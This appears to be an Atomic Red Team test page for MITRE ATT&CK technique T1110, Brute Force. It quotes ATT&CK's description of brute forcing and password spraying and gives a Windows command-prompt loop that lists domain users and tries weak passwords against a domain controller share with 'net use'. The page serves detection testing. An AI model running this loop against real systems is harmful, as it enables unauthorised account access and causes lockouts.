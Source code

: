 ```yaml
---
title: T1110 Brute Force
published: true
---
```

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1110)

<blockquote>Adversaries may use brute force techniques to attempt access to accounts when passwords are unknown or when password hashes are obtained.
<br/>
  <a href="https://attack.mitre.org/techniques/T1003">Credential Dumping</a> is used to obtain password hashes, this may only get an adversary so far when <a href="https://attack.mitre.org/techniques/T1075">Pass the Hash</a> is not an option. Techniques to systematically guess the passwords used to compute hashes are available, or the adversary may use a pre-computed rainbow table to crack hashes. Cracking hashes is usually done on adversary-controlled systems outside of the target network. (Citation: Wikipedia Password cracking)
<br/>
Adversaries may attempt to brute force logins without knowledge of passwords or hashes during an operation either with zero knowledge or by attempting a list of known or possible passwords. This is a riskier option because it could cause numerous authentication failures and account lockouts, depending on the organization's login failure policies. (Citation: Cylance Cleaver)
<br/>
A related technique called password spraying uses one password (e.g. 'Password01'), or a small list of passwords, that matches the complexity policy of the domain and may be a commonly used password. Logins are attempted with that password and many different accounts on a network to avoid account lockouts that would normally occur when brute forcing a single account with many passwords. (Citation: BlackHillsInfosec Password Spraying)
<br/>
Typically, management services over commonly used ports are used when password spraying. Commonly targeted services include the following:
<br/>
* SSH (22/TCP)
* Telnet (23/TCP)
* FTP (21/TCP)
* NetBIOS / SMB / Samba (139/TCP & 445/TCP)
* LDAP (389/TCP)
* Kerberos (88/TCP)
* RDP / Terminal Services (3389/TCP)
* HTTP/HTTP Management Services (80/TCP & 443/TCP)
* MSSQL (1433/TCP)
* Oracle (1521/TCP)
* MySQL (3306/TCP)
* VNC (5900/TCP)
<br/>

In default environments, LDAP and Kerberos connection attempts are less likely to trigger events over SMB, which creates Windows "logon failure" event ID 4625.</blockquote>

## Atomic Tests

- Atomic Test #1 - Brute Force Credentials

<br/>

## Atomic Test #1 - Brute Force Credentials
Creates username and password files then attempts to brute force on remote host

**Supported Platforms:** Windows

#### Inputs

| Name | Description | Type | Default Value | 
|:------:|:-------------:|:------:|:---------------:|
| input_file_users | Path to a file containing a list of users that we will attempt to brute force | Path | DomainUsers.txt|
| input_file_passwords | Path to a file containing a list of passwords we will attempt to brute force with | Path | passwords.txt|
| remote_host | Hostname of the target system we will brute force upon | String | \\COMPANYDC1\IPC$|
| domain | Domain name of the target system we will brute force upon | String | YOUR_COMPANY|

#### Run it with `command_prompt`!

```
net user /domain > #{input_file_users}
echo "Password1" >> #{input_file_passwords}
echo "1q2w3e4r" >> #{input_file_passwords}
echo "Password!" >> #{input_file_passwords}
@FOR /F %n in (#{input_file_users}) DO @FOR /F %p in (#{input_file_passwords}) DO @net use #{remote_host} /user:#{domain}\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete #{remote_host} > NUL
```

